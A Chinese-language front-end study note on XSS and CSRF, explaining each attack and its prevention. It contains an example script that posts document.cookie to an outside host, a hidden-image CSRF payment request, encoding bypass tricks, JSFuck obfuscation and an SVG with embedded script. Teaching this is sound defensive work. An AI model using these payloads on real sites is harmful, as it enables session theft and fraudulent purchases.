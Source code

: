 ```yaml
---
date: '2020-10-29 15:54:00'
---
```


# 常见的 web 前端攻击方式有哪些？

安全

- XSS 跨站请求攻击（反射型，存储型，DOM型）
- XSRF 跨站请求伪造

XSS 跨站请求攻击

比如：一个博客网站，我发表一篇博客，其中嵌入 `<script />`脚本，获取 cookie，发送到我的跨域服务器，当有人查看这篇文章，我可以获取访问者的 cookie

```js
<p>模拟 XSS 跨站，获取 cookie</p>
<script> alert(document.cookie);$.post('test.com', {cookie: document.cookie}) </script>
```

XSS 预防（也可以使用 XSS 工具，如 [https://www.npmjs.com/package/xss](https://www.npmjs.com/package/xss)）

- 替换特殊字符，如 < 变成`&lt;` > 变成`` `&gt;` ``
- `<script>` 变成 `&lt;script&gt;` ,这样不会作为脚本执行
- 建议前后端都替换

```js
&lt;script&gt; alert(document.cookie);$.post('test.com', {cookie: document.cookie}) &lt;/script&gt;
```

CSRF/XSRF 跨站请求伪造

比如：你正在购物，看中了某个商品，商品 id 是 100，付款接口：xxx.com/pay?id=100，但没任何验证，攻击者想购买 id 为 200 的商品，通过发送邮件隐藏 `<img src="xxx.com/pay?id=200" />`，一旦查看邮件，就购买了 id 为 200 的商品

XSRF 预防（现在很少见了）

- 使用 post 接口
- 增加验证，例如密码，短信验证码，指纹等

**其他**

为协议：

- Data 为协议：data:text/html;base64,PHNjcsdd=
- JavaScript为协议：javascript:alert(1)

Unicode 编码及 URL 编码绕过：

- JavaScript 编码：&#x，\\u 都可以用来表示一串 Unicode 编码，如：\\u0074 \\u0065 \\u0073 \\u0074 或 &#x0074 &#x0065 &#x0073 &#x0074
- HTML实体编码：&#116 &#101 &#115 &#116
- URL编码：%74 %65 %73 %74

xss 蠕虫，比如： myspace蠕虫攻击

xss 编码混淆，利用浏览器解析编码的顺序 js <- url <- html，比如： jsFuck 使用 6 个字符 \[\]()!+ 来编写

```js
false       =>  ![]
true        =>  !![]
undefined   =>  [][[]]
NaN         =>  +[![]]
0           =>  +[]
1           =>  +!+[]
2           =>  !+[]+!+[]
10          =>  +[[+!+[]]+[+[]]]
Array       =>  []
Number      =>  +[]
String      =>  []+[]
Boolean     =>  ![]
Function    =>  []["filter"]
run         =>  []["filter"]["constructor"]( CODE )()
eval        =>  []["filter"]["constructor"]("return eval")()( CODE )
window      =>  []["filter"]["constructor"]("return this")()
```

SVG 文件中插入 JS 代码

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="100%" height="100%" version="1.1" xmlns="http://www.w3.org/2000/svg">
	<script>
		alert(11)
	</script>
</svg>
```
